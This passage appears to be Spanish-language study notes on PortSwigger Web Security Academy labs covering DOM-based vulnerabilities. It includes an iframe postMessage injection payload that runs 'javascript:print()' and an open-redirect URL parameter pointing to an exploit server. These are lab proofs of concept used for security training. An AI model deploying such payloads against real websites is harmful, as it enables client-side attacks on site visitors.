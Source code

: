 ![](/img2/Pasted%20image%2020250810181703.png)

- Injection

```html
<iframe src="https://0a2600ff03568431802403ac00fc0034.web-security-academy.net/" onload="this.contentWindow.postMessage(JSON.stringify({type: 'load-channel',url: 'javascript:print()'}), '*')">
```

## Redirección abierta basada en el DOM || DOM-based open redirection

![](/img2/Pasted%20image%2020250810191446.png)

> En el enlace 'Back to Blog' encontramos un evento 'onclick', el cual ejecuta una expresión regular sobre la url actual en la cual, si existe la palabra 'url' siguiendo de una url válida. Finalmente, ejecuta un redirect sobre el valor del parámetro 'url'.

![](/img2/Pasted%20image%2020250810191321.png)

![](/img2/Pasted%20image%2020250810191400.png)

- Injection

```javascript
&url=https://exploit-0a2000ca034d2e4a81db2f09010800ff.exploit-server.net/exploit
```


## Manipulación de cookies vía DOM || DOM-based cookie manipulation

![](/img2/Pasted%20image%2020250810204811.png)
